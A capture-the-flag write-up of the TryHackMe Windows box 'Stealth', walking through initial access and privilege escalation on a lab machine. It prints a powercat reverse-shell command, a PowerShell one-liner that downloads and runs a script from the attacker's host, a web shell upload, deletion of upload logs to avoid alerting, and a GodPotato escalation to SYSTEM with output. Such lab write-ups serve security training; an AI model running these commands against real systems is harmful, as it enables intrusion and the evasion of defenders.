 ```yaml
---
title: Stealth 
published: 2023-12-19
description: "An in-detail writeup on the winodws box: Stealth from THM"
tags: ["thm", "box", "medium", "windows", "reverse-shells", "privilege-escalation", "av-evasion", "SeImpersonatePrivilege"]
category: TryHackMe 
draft: false
---
```


![](https://tryhackme-images.s3.amazonaws.com/room-icons/67fb507355a387db7f5bdabae942d361.png)

* Directly go to port `8080` 

* It looks like a script analyser for powershell. Hence, I uploaded a reverse shell script generated using powercat.

```bash
$ powercat -c 10.8.136.133 -p 443 -e cmd -g > payload.ps1
``` 

* And I started listening: 

```bash
$ nc -nvlp 443 
Listening on 0.0.0.0 443
Connection received on 10.10.60.153 49776
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\evader\Documents
``` 

## Privilege Escalation

* I found an encoded message in `C:\Users\evader\Desktop` called `encodedflag` 

```bash
C:\Users\evader\Desktop>type encodedflag
type encodedflag
-----BEGIN CERTIFICATE-----
WW91IGNhbiBnZXQgdGhlIGZsYWcgYnkgdmlzaXRpbmcgdGhlIGxpbmsgaHR0cDov
LzxJUF9PRl9USElTX1BDPjo4MDAwL2FzZGFzZGFkYXNkamFramRuc2Rmc2Rmcy5w
aHA=
-----END CERTIFICATE---- 
``` 

* I decrypted it in base64 

```bash
$ echo WW91IGNhbiBnZXQgdGhlIGZsYWcgYnkgdmlzaXRpbmcgdGhlIGxpbmsgaHR0cDovLzxJUF9PRl9USElTX1BDPjo4MDAwL2FzZGFzZGFkYXNkamFramRuc2Rmc2Rmcy5waHA= | base64 -d
You can get the flag by visiting the link http://<IP_OF_THIS_PC>:8000/asdasdadasdjakjdnsdfsdfs.php 
``` 

* I requested the URL: 

```bash
curl http://10.10.60.153:8000/asdasdadasdjakjdnsdfsdfs.php
Hey, seems like you have uploaded invalid file. Blue team has been alerted. <br> Hint: Maybe removing the logs files for file uploads can help? 
``` 

* Hence, I deleted the `log.txt` on `C:\xampp\htdocs\uploads`, later on when I request the php file it returned the flag

```bash
curl http://10.10.60.153:8000/asdasdadasdjakjdnsdfsdfs.php
Flag: THM{10---snip--USER} <br> 
``` 

* Next, I uploaded a web shell written in php (p0wny-shell) to see if we get in as another user, however, we do not, yet a new privilege has been enabled. 

```bash
evader@HostEvasion:C:\xampp\htdocs# whoami
hostevasion\evader

evader@HostEvasion:C:\xampp\htdocs# whoami /priv 

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State 
============================= ========================================= ======== 
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled 
```  


* Then, I add a reverse shell ps1 script to the server and got back a shell: `powershell -c IEX (New-Object System.Net.Webclient).DownloadString('http://10.8.136.133:9999/shell.ps1')`

* Since, `SeImpersonatePrivilege` is present we can impersonate other accounts including admin using the GodPotato tool 

* Running the `PrivEscCheck.ps1` script we find out that the anti virus does not check `C:\xampp` 

```bash
c:\xampp>.\GodPotato-NET4.exe -cmd "cmd /c whoami"
.\GodPotato-NET4.exe -cmd "cmd /c whoami"
[*] CombaseModule: 0x140730361184256
[*] DispatchTable: 0x140730363501744
[*] UseProtseqFunction: 0x140730362879024
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\89380dd1-0819-490b-b391-8b22023dcb62\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00000c02-06cc-ffff-bc2a-41edb6bb3cf5
[*] DCOM obj OXID: 0xa660d24a97b7b629
[*] DCOM obj OID: 0xdf5875d88c733193
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 524 Token:0x636  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 5040 
``` 

```bash
c:\xampp>.\GodPotato-NET4.exe -cmd "cmd /c type C:\users\Administrator\Desktop\flag.txt"
.\GodPotato-NET4.exe -cmd "cmd /c type C:\users\Administrator\Desktop\flag.txt"
[*] CombaseModule: 0x140730361184256
[*] DispatchTable: 0x140730363501744
[*] UseProtseqFunction: 0x140730362879024
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\.\pipe\2bf1b24f-a9f3-4d26-bc8e-7cbc56aff1a8\pipe\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00001802-15fc-ffff-c306-5564718871b5
[*] DCOM obj OXID: 0x82dab9687613b6a4
[*] DCOM obj OID: 0x87873019bb181830
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 524 Token:0x636  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 2984
THM{101---snip---CESS} 
``` 

## PWNED! 
